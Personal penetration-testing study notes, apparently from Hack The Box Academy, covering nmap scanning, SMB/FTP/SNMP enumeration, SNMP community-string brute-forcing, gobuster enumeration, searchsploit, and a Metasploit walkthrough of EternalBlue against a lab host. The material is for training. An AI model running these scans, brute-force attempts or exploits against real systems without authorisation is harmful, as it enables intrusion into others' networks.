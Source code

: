  //to-do: learn github.md syntax

## nmap:
### flags:
[non]: Top 1000. TCP (not UDP)
-sC parameter to specify that Nmap scripts should be used to try and obtain more detailed information
-sV parameter instructs Nmap to perform a version scan. The version scan is underpinned by a comprehensive database of over 1,000 service signatures.  
-p- tells Nmap that we want to scan all 65,535 TCP ports.
(((
phpinfo(): The script scan -sC flag causes Nmap to report the server headers http-server-header page and the page title http-title for any web page hosted on the webserver. The web page title PHP 7.4.3 - phpinfo() indicates that this is a PHPInfo file, which is often manually created to confirm that PHP has been successfully installed. The title (and PHPInfo page) also reveals the PHP version, which is worth noting if it is vulnerable.
)))


### indicator ports: 
 port 3389 default for Remote Desktop Services --> indicates Windows OS
 port 22, SSH --> indicates Linux/Unix

### nmap scripts:
Syntax: nmap --script <script name> -p<port> <host>
(((
cyberSecHell@htb[/htb]$ locate scripts/citrix

/usr/share/nmap/scripts/citrix-brute-xml.nse
)))

# Attacking Network Services

## Banner Grabbing
nmap -sV --script=banner <target> (((  nmap -sV --script=banner -p21 10.10.10.0/24 )))
nc -nv <ip> <port>

## FTP
nmap -sC -sV -p21 10.129.42.253
ftp -p 10.129.42.253 ((( ls, cd <dir> get, <filename>, exit )))

## SMB (Server Message Block) (Windows)
(samba?)
"some SMB versions may be vulnerable to RCE exploits such as EternalBlue"
"Nmap has many scripts for enumerating SMB, such as smb-os-discovery.nse, which will interact with the SMB service to extract the reported operating system version." (((nmap --script smb-os-discovery.nse -p445 10.10.10.40)))
nmap -A -p445 10.129.42.253 (((look up -A flag)))

### shares (SMB) 
(((
smbclient -N -L \\\\10.129.42.253
)))
SMB allows users and administrators to share folders and make them accessible remotely by other users. Often these shares have files in them that contain sensitive information such as passwords. A tool that can enumerate and interact with SMB shares is smbclient. The -L flag specifies that we want to retrieve a list of available shares on the remote host, while -N suppresses the password prompt.
(((
smbclient -U <user> \\\\10.129.42.253\\users   <users --> location?>
)))

get <file> - 
the - displays the content in terminal
 
##SNMP
"SNMP Community strings provide information and statistics about a router or device-SNIP- The manufacturer default community strings of public and private are often unchanged. In SNMP versions 1 and 2c, access is controlled using a plaintext community string, and if we know the name, we can gain access to it. Encryption and authentication were only added in SNMP version 3."

(((snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0)))
(((snmpwalk -v 2c -c private  10.129.42.253 )))

"A tool such as onesixtyone can be used to brute force the community string names using a dictionary file of common community strings such as the dict.txt file included in the GitHub repo for the tool."

(((onesixtyone -c dict.txt 10.129.42.254)))

##Conclusion
(((
VPN Servers

Warning: Each time you "Switch", your connection keys are regenerated and you must re-download your VPN connection file.

All VM instances associated with the old VPN Server will be terminated when switching to a new VPN server.
Existing PwnBox instances will automatically switch to the new VPN server.
)))

# Web Enumeration

## Gobuster
" We can use a tool such as ffuf or GoBuster to perform this directory enumeration. "

### Directory/File Enumeration
gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt <br>
dirb common.txt <be>

#### HTTP status code of 
-200 reveals that the resource's request was successful, 
-403 HTTP status code indicates that we are forbidden to access the resource. 
-301 status code indicates that we are being redirected, which is not a failure case. 
--It is worth familiarizing ourselves with the various HTTP status codes, which can be found at: https://en.wikipedia.org/wiki/List_of_HTTP_status_codes
--The Web Requests Academy Module also covers HTTP status codes further in-depth.

### DNS Subdomain Enumeration
#### install SecLists
clone SecLists:
-$ git clone https://github.com/danielmiessler/SecLists
-$ sudo apt install seclists -y
"""
Next, add a DNS Server such as 1.1.1.1 to the /etc/resolv.conf file. We will target the domain inlanefreight.com, the website for a fictional freight and logistics company.
"""
-$ gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt

"""
This scan reveals several interesting subdomains that we could examine further. The Attacking Web Applications with Ffuf module goes into more details about web enumeration and fuzzing.
https://academy.hackthebox.com/module/details/54
"""

## Web Enumeration Tips
#### Banner Grabbing / Web Server Headers
- curl -IL https://www.inlanefreight.com
use cURL to grab banner/headers
learn cURL
"""Another handy tool is EyeWitness, which can be used to take screenshots of target web applications, fingerprint them, and identify possible default credentials.:
https://github.com/FortyNorthSecurity/EyeWitness
"""
#### Whatweb
-whatweb 10.10.10.121
whatweb --no-errors 10.10.10.0/24

#### Certificates
PHISING
SSL/TLS certificates are another potentially valuable source of information if HTTPS is in use. Browsing to https://10.10.10.121/ and viewing the certificate reveals the details below, including the email address and company name. These could potentially be used to conduct a phishing attack if this is within the scope of an assessment.

#### robots.txt
remember evil-robots.txt?

#### Source Code
-has anyone ever found credentials in a source code in the real world??

# Public Exploits
searchsploit
- $ sudo apt install exploitdb -y

"""we can use searchsploit to search for a specific application by its name, as follows:"""
- $ searchsploit openssh 7.2
"""We can also utilize online exploit databases to search for vulnerabilities, like Exploit DB, Rapid7 DB, or Vulnerability Lab. The Intro to Web Applications module discusses public vulnerabilities for web applications: https://academy.hackthebox.com/module/details/75
/*see more links under links--> exploits*/"""

## Metasploit Primer
msfconsole
"""


The Metasploit Framework (MSF) is an excellent tool for pentesters. It contains many built-in exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets. MSF has many other features, like:

-    Running reconnaissance scripts to enumerate remote hosts and compromised targets

-    Verification scripts to test the existence of a vulnerability without actually compromising the target

-    Meterpreter, which is a great tool to connect to shells and run commands on the compromised targets

-    Many post-exploitation and pivoting tools

Let us take a basic example of searching for an exploit for an application we are attacking and how to exploit it. To run Metasploit, we can use the msfconsole command:
"""
- $ msfconsole

"""Once we have Metasploit running, we can search for our target application with the search exploit command. For example, we can search for the SMB vulnerability we identified previously:
"""
- msf6 > search exploit eternalblue
"""Tip: Search can apply complex filters such as search cve:2009 type:exploit. See all the filters with help search"""
- > use exploit/windows/smb/ms17_010_psexec
- > show options

"""Any option with Required set to yes needs to be set for the exploit to work. In this case, we only have two options to set: RHOSTS, which means the IP of our target (this can be one IP, multiple IPs, or a file containing a list of IPs). We can set them with the set command:

-  > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
-  > set LHOST tun0
LHOST => tun0
"""

"""Once we have both options set, we can start the exploitation. However, before we run the script, we can run a check to ensure the server is vulnerable:

- > check"""

- > run / > exploit

- > search
- > show options
- > set
  > check
  > exploit

"""As we can see, we have been able to gain admin access to the box and used the shell command to drop us into an interactive shell. These are basic examples of using Metasploit to exploit a vulnerability on a remote server. There are many retired boxes on the Hack The Box platform that are great for practicing Metasploit. Some of these include, but not limited to:

    Granny/Grandpa
    Jerry
    Blue
    Lame
    Optimum
    Legacy
    Devel
"""

Nibbles.




# links
https://nullsec.us/top-1-000-tcp-and-udp-ports-nmap-default/  <br>
https://owasp.org/www-project-top-ten/  <br>
https://www.stationx.net/common-ports-cheat-sheet/  <br>
https://docs.github.com/en/get-started/writing-on-github/getting-started-with-writing-and-formatting-on-github/basic-writing-and-formatting-syntax  <br>
### print
https://packetlife.net/media/library/23/common-ports.pdf
### exploits
- https://www.exploit-db.com/
- https://www.rapid7.com/db/
- https://www.vulnerability-lab.com/
